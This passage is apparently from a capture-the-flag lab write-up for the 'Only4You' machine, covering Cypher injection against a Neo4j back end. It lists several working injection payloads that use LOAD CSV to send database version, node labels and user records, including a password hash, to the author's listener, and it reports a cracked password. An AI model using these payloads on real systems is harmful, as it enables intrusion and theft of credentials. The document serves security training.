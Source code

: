 To automate the trials, I select all the payloads present on HackTricks section, elabo-rate a small dictionary, and launch the intruder attack using burpsuite.

![image](images/Only4You/Imagen24.png)

This doesn’t give us many information as every request containing “ ‘ ” will generate a HTTP Code 500 response from server. Using the payloads from the same HackTricks Book Section, I will try and get the Database Software Name, Version and Edition and send them via a HTTP request generated by the database itself. The following Cipher Query will be used:

``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```

![image](images/Only4You/Imagen25.png)

This query, if executed, will send an HTTP request from the database to a “Simple HTTP Server” running on port 8000 of my machine containing the Neo4J software name, version, and edition.

![image](images/Only4You/Imagen26.png)

Cipher Injection is found, software running is “Neo4J Kernel, version 5.6.0 Community Edition”. 

Next payload sent is aimed at retrieving the labels of the nodes present in the data-base and send them via HTTP request to my python server.

``` ' OR 1=1 WITH 1 as a CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://10.10.14.26:8000/?d=' + d as l RETURN 0 as _0 // ```

![image](images/Only4You/Imagen27.png)

![image](images/Only4You/Imagen28.png)

With the information about the different nodes’ names and using the built-in function “key()” it is possible to get the properties of each node, and the value for each of the properties. Will also use “LOAD FROM CSV” function to send the information to my python web server.

Firstly, the information for the “employees” nodes:

``` ' OR 1=1 WITH 1 as a MATCH (e:employee) UNWIND keys(e) as result LOAD CSV FROM 'http://10.10.14.26:8000/?e=' + result +'='+toString(e[result]) as l RETURN 0 as _0 // ```

![image](images/Only4You/Imagen29.png)

![image](images/Only4You/Imagen30.png)

Now, the information for the “user” nodes:

``` ' OR 1=1 WITH 1 as a MATCH (u:user) UNWIND keys(u) as result LOAD CSV FROM 'http://10.10.14.26:8000/?u=' + result +'='+toString(u[result]) as l RE-TURN 0 as _0 // ```

![image](images/Only4You/Imagen31.png)

![image](images/Only4You/Imagen32.png)

As it can be seen in the previous picture, password hash for user “John” is recovered. Using and online tool (https://hashes.com/en/tools/hash_identifier), a new password is found “ThisIs4You”.
```